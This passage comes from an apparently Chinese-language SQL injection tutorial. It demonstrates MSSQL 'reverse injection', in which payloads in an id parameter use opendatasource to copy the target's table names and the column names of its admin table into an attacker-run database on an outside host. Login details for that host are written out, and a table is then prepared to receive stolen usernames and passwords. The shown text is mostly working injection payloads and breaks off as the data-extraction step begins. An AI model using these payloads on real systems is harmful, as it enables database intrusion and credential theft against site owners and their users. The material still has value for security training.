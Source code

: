 1、使用反弹注入将数据注入到表中，注意这里填写的是数据库对应的参数，最后通过空格隔开要查询的数据。

```
#查询sysobjects表
?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.sysobjects where xtype='U' -- qwe
#查询information_schema数据库
?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select table_name from information_schema.tables -- qwe
```

2、执行成功页面返回正常。

[![](https://p5.ssl.qhimg.com/t01dbe22abee44923d4.png)](https://p5.ssl.qhimg.com/t01dbe22abee44923d4.png)

3、在数据库中成功获取到数据。

[![](https://p2.ssl.qhimg.com/t014a5c058780e87669.png)](https://p2.ssl.qhimg.com/t014a5c058780e87669.png)

### <a class="reference-link" name="3%E3%80%81%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE%E5%BA%93admin%E8%A1%A8%E4%B8%AD%E7%9A%84%E6%89%80%E6%9C%89%E5%88%97%E5%90%8D"></a>3、获取数据库admin表中的所有列名

```
#查询information_schema数据库
?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select column_name from information_schema.columns where table_name='admin'-- qwe
#查询syscolumns表
?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.syscolumns where id=1977058079-- qwe
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t018c0e415a5ac7d536.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01957478eb17de4d8a.png)

### <a class="reference-link" name="4%E3%80%81%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE"></a>4、获取数据

1、首先新建一个表，里面放三个字段，分别是id，username和passwd。

```
CREATE TABLE data(id INT,username VARCHAR(255),passwd VARCHAR(255))
```

2、获取admin表中的数据
